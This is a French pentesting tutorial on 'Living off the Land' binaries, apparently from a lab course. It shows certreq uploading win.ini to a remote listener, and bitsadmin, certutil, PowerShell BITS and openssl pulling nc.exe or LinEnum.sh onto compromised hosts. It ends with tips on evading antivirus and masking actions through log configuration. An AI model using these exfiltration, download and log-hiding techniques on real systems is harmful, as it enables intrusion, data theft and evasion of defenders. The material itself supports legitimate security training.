 # Living off the Land

## <mark style="color:red;">Qu'est-ce que "Living off the Land" ?</mark>

Le terme **"Living off the Land"** (LOL) désigne l'utilisation de binaires ou de fonctions disponibles nativement sur le système d'exploitation pour exécuter des actions malveillantes. Ces outils sont appelés **LOLBins** (Living off the Land Binaries).

Ces binaires peuvent être utilisés pour :

* **Télécharger** des fichiers
* **Uploader** des fichiers
* **Exécuter des commandes**
* **Lire** et **écrire** des fichiers
* **Contourner** certaines mesures de sécurité

Les deux principaux projets qui documentent ces binaires sont :

1. **LOLBAS** (Living Off the Land Binaries and Scripts) pour Windows
2. **GTFOBins** pour Linux

***

## <mark style="color:red;">Principales Commandes et Binaries Utilisés</mark>

1.  <mark style="color:green;">**CertReq.exe (Windows)**</mark>

    Utilisation : Souvent utilisé pour soumettre des requêtes de certificats, mais peut être utilisé pour transférer des fichiers via des requêtes HTTP.

<mark style="color:orange;">**Exemple : Uploader le fichier win.ini vers un serveur distant :**</mark>

{% code fullWidth="true" %}
```powershell
certreq.exe -Post -config http://192.168.49.128:8000/ C:\windows\win.ini
```
{% endcode %}

<mark style="color:orange;">**File Received in our Netcat Session**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
{% endcode %}

2.  <mark style="color:green;">**OpenSSL (Linux)**</mark>

    Utilisation : Utilisé pour la génération de certificats, peut également servir à transférer des fichiers de manière similaire à nc.

<mark style="color:orange;">**Exemple : Créer un certificat et démarrer un serveur pour transférer un fichier :**</mark>

{% code overflow="wrap" fullWidth="true" %}
```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
{% endcode %}

<mark style="color:orange;">**Télécharger le fichier depuis une machine compromise :**</mark>

{% code fullWidth="true" %}
```
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```
{% endcode %}

3.  <mark style="color:green;">**Bitsadmin (Windows)**</mark>

    Utilisation : Permet le téléchargement de fichiers via HTTP/SMB en utilisant le service BITS. Cette méthode minimise l'impact sur les utilisateurs.

<mark style="color:orange;">**Exemple : Télécharger un fichier avec bitsadmin :**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```
{% endcode %}

4.  <mark style="color:green;">**Certutil (Windows)**</mark>

    Utilisation : Outil intégré utilisé pour gérer les certificats, mais peut être détourné pour télécharger des fichiers à distance.

<mark style="color:orange;">**Exemple : Télécharger un fichier avec certutil :**</mark>

{% code fullWidth="true" %}
```powershell
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
{% endcode %}

5.  <mark style="color:green;">**PowerShell et BITS (Windows)**</mark>

    Utilisation : PowerShell permet une interaction avancée avec BITS pour télécharger des fichiers.

Exemple : Télécharger un fichier avec PowerShell :

{% code overflow="wrap" fullWidth="true" %}
```powershell
Import-Module bitstransfer Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
{% endcode %}

***

## <mark style="color:red;">Autres Binaries Utilisés pour le Living off the Land</mark>

Il existe de nombreux autres binaires qui peuvent être utilisés de manière détournée. Voici quelques autres exemples :

```
Msiexec : Installation de fichiers MSI via HTTP
Regsvr32 : Chargement et exécution de DLL à distance
Rundll32 : Exécution de code à partir de DLL
Wmic : Exécution de commandes système ou téléchargement de fichiers
```

Sites Web Utiles

```
LOLBAS Project : https://lolbas-project.github.io/
GTFOBins : https://gtfobins.github.io/
```

Conseils pour l'utilisation de LOLBins

```
Testez les différentes méthodes : Plus vous connaissez de techniques, plus vous serez efficace lors d'un audit.
Évitez la détection : Certains outils comme certutil sont de plus en plus détectés par les systèmes de sécurité. Utilisez des méthodes plus obscures pour éviter d'être détecté.
```

Détection et Contournement

```
Antivirus : Certains antivirus détectent les LOLBins comme des actions malveillantes. Cherchez des alternatives moins courantes.
Journalisation : L'utilisation des LOLBins peut laisser des traces dans les logs système, pensez à masquer vos actions en modifiant les configurations log.
```

